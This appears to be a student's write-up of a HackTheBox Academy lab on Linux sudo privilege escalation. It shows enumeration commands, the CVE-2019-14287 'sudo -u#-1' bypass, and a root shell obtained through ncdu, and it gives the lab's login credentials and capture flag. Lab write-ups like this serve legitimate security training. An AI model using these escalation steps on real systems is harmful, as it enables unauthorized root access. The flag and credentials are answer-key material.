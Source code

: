 # SUDO

- The latest sudo vulnerability is [CVE-2021-3156](https://github.com/worawit/CVE-2021-3156)
- Here is a [Proof-of-Concept](https://github.com/blasty/CVE-2021-3156)

The following will list which users and/or groups are allowed to run which programs with what privileges
``` python
sudo cat /etc/sudoers | grep -v "#" | sed -r '/^\s*$/d'
```

Determine sudo version
``` python
sudo -V | head -n1
```

Determine OS Version
```python
cat /etc/lsb-release

DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=20.04
DISTRIB_CODENAME=focal
DISTRIB_DESCRIPTION="Ubuntu 20.04.1 LTS"
```

## Sudo Policy Bypass

[CVE-2019-14287](https://www.sudo.ws/security/advisories/minus_1_uid/) This sudo vulnerability affects all versions below 1.8.28 .

The only pre-req for this exploit is the user having to be in the /etc/sudoers file. 

Sudo also allows commands to be executed with a users ID. The users ID can be found in the /etc/passwd file like so. The ID being ==1005==
```python
cat /etc/passwd | grep cry0l1t3

cry0l1t3:x:1005:1005:cry0l1t3,,,:/home/cry0l1t3:/bin/bash
```

If a negative ID is entered as sudo, this will default to 0, the root user
```python
sudo -u#-1 id

root@nix02:/home/cry0l1t3# id

uid=0(root) gid=1005(cry0l1t3) groups=1005(cry0l1t3)
```

# Questions

Username
```python
htb-student
```

Password
```python
HTB_@cademy_stdnt!
```

IP
```python
10.129.205.110
```

Hostname
```python
ACADEMY-LLPE-SUDO
```

SSH
```python
ssh htb-student@ACADEMY-LLPE-SUDO
```
## Enumeration

Enumerating sudo version. This isn't one of the versions affected by CVE-2021-3156
```bash
$ sudo -V | head -n1
Sudo version 1.8.21p2
```

Verify sudo permissions. The user has the capability to execute the ncdu binary with sudo permissions
```bash
$ sudo -l
[sudo] password for htb-student: 
Matching Defaults entries for htb-student on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User htb-student may run the following commands on ubuntu:
    (ALL, !root) /bin/ncdu
```

## Priv Esc
> [! info]
> What is ncdu? It is short for NCurses Disk Usage, is a command-line utility designed to help users and system administrators find and manage disk space usage on Linux systems. It can be used to break out of an interactive shell. After executing, pressing the character 'b' will spawn an interactive shell

[GTFOBINs](https://gtfobins.github.io/gtfobins/ncdu/) for reference

```python
$ sudo -u#-1 ncdu
# 
# id
uid=0(root) gid=1001(htb-student) groups=1001(htb-student)
```

Flag
```
HTB{SuD0_e5c4l47i0n_1id}
```




